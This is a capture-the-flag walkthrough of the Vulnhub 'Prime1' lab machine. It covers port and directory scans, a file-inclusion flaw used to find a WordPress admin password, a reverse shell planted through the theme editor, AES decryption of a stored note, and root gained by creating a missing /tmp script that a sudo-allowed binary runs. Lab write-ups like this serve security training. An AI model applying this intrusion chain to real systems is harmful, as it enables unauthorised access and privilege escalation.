

# Prime1

Author: Vulnhub
Difficulty: 3
Tags: Decryption, LFI
Type: Linux

# Enumeration

- portscan

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster dir scan

```bash
┌──(kali㉿kali)-[~/vulnhub/prime]
└─$ gobuster dir -u http://10.1.1.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 --no-error -x php,txt,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.1.1.7
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/09/24 12:51:14 Starting gobuster in directory enumeration mode
===============================================================
/image.php            (Status: 200) [Size: 147]
/index.php            (Status: 200) [Size: 136]
/wordpress            (Status: 301) [Size: 308] [--> http://10.1.1.7/wordpress/]
/dev                  (Status: 200) [Size: 131]
/javascript           (Status: 301) [Size: 309] [--> http://10.1.1.7/javascript/]
/secret.txt           (Status: 200) [Size: 412]
```



- WFuzz scan

```bash
┌──(kali㉿kali)-[~/vulnhub/prime]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 12 http://10.1.1.7/index.php?FUZZ=location.txt
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.1.1.7/index.php?FUZZ=location.txt
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000341:   200        8 L      42 W       334 Ch      "file"

Total time: 0
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 0
```


# Initial Access


Found this using LFI


`follow_the_ippsec` was the password for victor's admin wordpress account on http://prime.vuln/wordpress/wp-admin

- Edited the secret.php in theme editor to add a reverse shell script and gained a shell as www-data

# Privilege Escalation

```bash
www-data@ubuntu:/opt/backup/server_database$ cat backup_pass
cat backup_pass
your password for backup_database file enc is

"backup_password"

Enjoy!
```

found a file `backup_pass` in /opt/backup/server_database which said 'use backup_password to open enc'

```bash
www-data@ubuntu:/home/saket$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
www-data@ubuntu:/home/saket$ sudo /home/saket/enc
enter password: backup_password
good
```

This created two new files 

```bash
www-data@ubuntu:/home/saket$ cat enc.txt
nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=
www-data@ubuntu:/home/saket$ cat key.txt
I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.
```

decrypting the enc.txt contents 

```python
from Crypto.Cipher import AES
from base64 import b64decode

data = b64decode(b"nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=")
key = b"366a74cb3c959de17d61db30591c39d1"
cip = AES.new(key,AES.MODE_ECB)
print(cip.decrypt(data).decode("utf-8"))
```

after decryption

```python
Dont worry saket one day we will reach to
our destination very soon. And if you forget
your username then use your old password
==> "tribute_to_ippsec"

Victor,
```

```python
saket@ubuntu:/home/victor$ sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor
saket@ubuntu:/home/victor$ sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
```

the file /home/victor/undefeated_victor was running another file /tmp/challenge which initially didn't exist, so I created one and added a reverse shell script to get a root shell!

# Notes

-